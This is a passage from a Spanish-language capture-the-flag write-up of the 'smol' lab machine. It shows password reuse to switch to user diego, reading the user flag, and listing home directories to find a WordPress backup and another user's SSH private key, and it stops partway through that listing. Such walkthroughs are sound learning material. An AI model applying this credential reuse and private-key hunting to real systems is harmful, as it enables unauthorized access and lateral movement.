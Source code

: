 Reutilizamos la contraseña sobre el usuario *Diego* y logramos leer la flag de usuario:
```
www-data@smol:/home$ su diego
Password: 
diego@smol:/home$ id
uid=1002(diego) gid=1002(diego) groups=1002(diego),1005(internal)
diego@smol:/home$ ls -lna
total 24
drwxr-xr-x  6    0    0 4096 Aug 16  2023 .
drwxr-xr-x 18    0    0 4096 Mar 29  2024 ..
drwxr-x---  2 1002 1005 4096 Aug 18  2023 diego
drwxr-x---  2 1003 1005 4096 Aug 18  2023 gege
drwxr-x---  5 1000 1005 4096 Jan 12  2024 think
drwxr-x---  2 1001 1005 4096 Aug 18  2023 xavi
diego@smol:/home$ cd diego/
diego@smol:~$ ls -lna
total 24
drwxr-x--- 2 1002 1005 4096 Aug 18  2023 .
drwxr-xr-x 6    0    0 4096 Aug 16  2023 ..
lrwxrwxrwx 1    0    0    9 Aug 18  2023 .bash_history -> /dev/null
-rw-r--r-- 1 1002 1002  220 Feb 25  2020 .bash_logout
-rw-r--r-- 1 1002 1002 3771 Feb 25  2020 .bashrc
-rw-r--r-- 1 1002 1002  807 Feb 25  2020 .profile
-rw-r--r-- 1    0    0   33 Aug 16  2023 user.txt
lrwxrwxrwx 1    0    0    9 Aug 18  2023 .viminfo -> /dev/null
diego@smol:~$ cat user.txt 
********************
```

## Escalada de privilegios
Revisando en los home de los usuarios, encontramos una copia de seguridad de *WordPress*, pero no tenemos acceso con el actual usuario y requerimos acceso con el usuario "*gege*":
```
diego@smol:/home/gege$ ls -lna
total 31532
drwxr-x--- 2 1003 1005     4096 Aug 18  2023 .
drwxr-xr-x 6    0    0     4096 Aug 16  2023 ..
lrwxrwxrwx 1    0    0        9 Aug 18  2023 .bash_history -> /dev/null
-rw-r--r-- 1 1003 1003      220 Feb 25  2020 .bash_logout
-rw-r--r-- 1 1003 1003     3771 Feb 25  2020 .bashrc
-rw-r--r-- 1 1003 1003      807 Feb 25  2020 .profile
lrwxrwxrwx 1    0    0        9 Aug 18  2023 .viminfo -> /dev/null
-rwxr-x--- 1    0 1003 32266546 Aug 16  2023 wordpress.old.zip
diego@smol:/home/gege$ strings wordpress.old.zip 
strings: wordpress.old.zip: Permission denied
diego@smol:/home/gege$ ll wordpress.old.zip 
-rwxr-x--- 1 root gege 32266546 Aug 16  2023 wordpress.old.zip*
```

Continuamos revisando el resto de directorios, logramos leer la clave privada **SSH** del usuario *think*:
```
diego@smol:/home/gege$ cd ..
diego@smol:/home$ ls
diego  gege  think  xavi
diego@smol:/home$ cd think/
diego@smol:/home/think$ ls -lna
total 32
drwxr-x--- 5 1000 1005 4096 Jan 12  2024 .
drwxr-xr-x 6    0    0 4096 Aug 16  2023 ..
lrwxrwxrwx 1    0    0    9 Jun 21  2023 .bash_history -> /dev/null
-rw-r--r-- 1 1000 1000  220 Jun  2  2023 .bash_logout
-rw-r--r-- 1 1000 1000 3771 Jun  2  2023 .bashrc
drwx------ 2 1000 1000 4096 Jan 12  2024 .cache
```